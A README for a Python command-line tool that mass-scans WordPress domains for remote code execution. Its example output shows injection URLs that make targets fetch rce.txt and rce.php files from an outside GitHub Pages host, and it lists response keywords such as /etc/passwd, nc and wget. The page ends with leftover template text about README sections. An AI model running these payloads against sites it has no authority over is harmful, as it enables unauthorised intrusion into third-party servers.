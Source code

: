 # WordPress RCE Vulnerability Scanner


A powerful tool designed to scan WordPress websites for Remote Code Execution (RCE) vulnerabilities. It uses various payloads to test for potential weaknesses and sensitive information exposure, providing immediate feedback on whether a site is vulnerable.

## Features

- 🚀 **Fast and Concurrent Scanning**: Leveraging the power of multithreading for quick domain scans.
- 🕵️‍♂️ **Sensitive Keyword Detection**: Scans for potentially dangerous information like `root`, `sudo`, `bin`, and `/etc/passwd`.
- ✅ **Real-Time Results**: See the results of your scan instantly as vulnerabilities are discovered.
- 📄 **Output to File**: Save your results to a file for later analysis.
- 🧩 **Easy to Use**: Simple command-line interface for both individual URLs and bulk domain scanning.

## How It Works

The tool scans WordPress websites by testing a variety of potential Remote Code Execution (RCE) vulnerabilities using predefined payloads. It checks for sensitive keywords in the response text to identify possible exploits.

### The scanner works in three steps:
1. **Payload Testing**: The scanner injects test payloads into WordPress URLs.
2. **Vulnerability Detection**: It checks if the response contains critical information like `root`, `sudo`, or `bin`.
3. **Instant Feedback**: As soon as a vulnerability is detected, the result is printed in real-time.

## Installation

### Prerequisites

Before you begin, ensure you have the following installed:
- Python 3.6 or higher
- pip (Python package installer)

### Install via pip

Clone this repository or download the script, and install the dependencies using the following:

```bash
git clone https://github.com/shaheen101sec/WpRce.git
cd WpRce
pip install -r requirements.txt
```

Alternatively, you can install the required packages using `pip`:

```bash
pip install requests rich
```

## Usage

### Scan a Single Domain

To scan a single WordPress domain for RCE vulnerabilities, use the `-u` option:

```bash
python3 tool.py -u https://example.com
```

### Scan Multiple Domains from a File

You can scan multiple domains by providing a file containing the list of domains, one per line:

```bash
python3 tool.py -l domains.txt
```

### Save Results to a File

You can save the results of your scan to a file by specifying the `-o` option:

```bash
python3 tool.py -u https://example.com -o results.txt
```

### Full Command Example

Here is an example of scanning a list of domains and saving the results to a file:

```bash
python3 tool.py -l domains.txt -o scan_results.txt
```

### Command-Line Arguments

| Option       | Description                                           |
|--------------|-------------------------------------------------------|
| `-u URL`     | Specify a single domain to scan.                     |
| `-l FILE`    | Provide a file containing a list of domains to scan. |
| `-o FILE`    | Output the results to a file.                        |

## Example Output

Here’s an example of the output you can expect:

```
VULNERABLE! https://example.com/wp-admin/admin-post.php?swp_debug=load_options&swp_url=https://shaheen101sec.github.io/rce/rce.txt
NOT VULNERABLE: https://example2.com/wp-admin/admin-post.php?swp_debug=load_options&swp_url=https://shaheen101sec.github.io/rce/rce.php
FAILED: https://example3.com/wp-admin/admin-post.php?swp_debug=load_options&swp_url=https://shaheen101sec.github.io/rce/rce.html
```

## Sensitive Keywords Detected

The scanner searches for the following critical keywords:
- `root`
- `bin`
- `sudo`
- `/etc/passwd`
- `sh`, `bash`
- `nc`, `wget`

If any of these keywords are found in the server’s response, the tool flags the domain as potentially vulnerable.

## Contributing

We welcome contributions to improve this tool! Feel free to fork the repository, submit issues, or open pull requests with enhancements, bug fixes, or documentation improvements.

### Explanation of Sections:

1. **Title and Logo**: A brief, clear title with a logo (optional if you add one).
2. **Features**: A list of key features of your tool.
3. **How It Works**: A short explanation of the tool’s functionality.
4. **Installation**: Instructions to set up and install the tool.
5. **Usage**: Detailed usage examples, including how to scan a single domain or a list of domains.
6. **Command-Line Arguments**: A table summarizing the available arguments.
7. **Example Output**: A sample of what the user will see after running the scan.
8. **Sensitive Keywords**: Describes what keywords the scanner looks for in responses.
9. **Contributing**: Instructions on how others can contribute to the project.
10. **License**: Legal info about the licensing of the project.
11. **Contact**: Information on how to contact you for support or feedback.
